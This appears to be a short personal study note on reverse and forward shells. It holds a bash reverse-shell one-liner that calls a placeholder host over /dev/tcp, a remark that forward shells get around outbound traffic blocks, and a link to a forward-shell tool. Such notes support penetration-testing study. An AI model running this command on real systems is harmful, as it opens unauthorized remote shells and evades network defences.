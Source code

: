 ```yaml
---
type: info
scope: []
aliases: []
related: []
created: 03-05-2023 01:23
---
```

%%
related::
%%

#todo 

## Overview
- `bash -i >& /dev/tcp/<ip>/<port> 0>&1`

## Foward Shell
- Some machines are configured to block certain network traffic, causing reverse shells to not connect
	- foward shells are the solution
	- https://github.com/IppSec/forward-shell


## References
- 